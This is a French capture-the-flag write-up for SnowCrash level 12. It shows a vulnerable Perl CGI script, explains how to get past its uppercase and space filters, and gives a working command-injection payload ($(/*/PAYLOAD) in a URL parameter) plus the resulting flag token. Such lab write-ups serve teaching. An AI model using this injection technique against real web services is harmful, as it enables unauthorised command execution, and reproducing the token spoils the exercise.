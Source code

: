 # LEVEL 12

### Reconnaissance

On tombe sur un fichier perl
``
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Meme chose que le level04, un script perl qui est en ecoute sur le port 4646.
Ce script attend 2 paramètres : x et y
le paramètre y ne nous sert a rien, seul x va nous servir.


Cette ligne nous permet une injection de commande :
```
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```
les backsticks interprette le code, la difficulté de ce level est de contourné les 2 regex avant:

```
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
```

Le premier converti les lettres en majuscule.
Le second supprime les espaces.

### Exploitation

```
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/PAYLOAD && chmod +x /tmp/PAYLOAD
```

On creer un fichier /tmp/PAYLOAD qu'on rend exécutable. Il ne nous reste plus qu'a faire notre injection:

```
192.168.56.105:4646/?x='$(/*/payload)'
OU
192.168.56.105:4646/?x='$(/*/PAYLOAD)'
```

le wilcard nous permet de contourné le filtre qui mettrait en majuscule /tmp
On a créer notre fichier en majuscule, le regex va nous le convertir tous seul.
$() nous permet d'executé la commande.

```
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```


